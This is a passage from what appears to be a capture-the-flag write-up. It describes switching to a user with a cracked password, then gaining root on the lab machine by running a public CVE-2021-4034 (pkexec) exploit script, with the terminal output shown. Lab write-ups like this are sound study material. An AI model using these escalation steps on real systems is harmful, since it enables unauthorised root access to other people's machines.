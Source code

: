 With the password provided by Crackstation, I was able to switch to the user `r00t`.

## Privilege Escalation root
I started by checking for SUID bits and discoverd that `pkexec` had its SUID bit set. I used the exploit described in <a href="https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py">CVE-2021-4034</a> and successfully gained root access:
```bash
r00t@ultratech-prod:~$ python3 exploit.py 
  Do you want to choose a custom payload? y/n (n use default payload)  n
  [+] Cleaning pervious exploiting attempt (if exist)
  [+] Creating shared library for exploit code.
  [+] Finding a libc library to call execve
  [+] Found a library at <CDLL 'libc.so.6', handle 7f5fa6465000 at 0x7f5fa4f107b8>
  [+] Call execve() with chosen payload
  [+] Enjoy your root shell
# id
  uid=0(root) gid=1001(r00t) groups=1001(r00t),116(docker)
```

solved! :)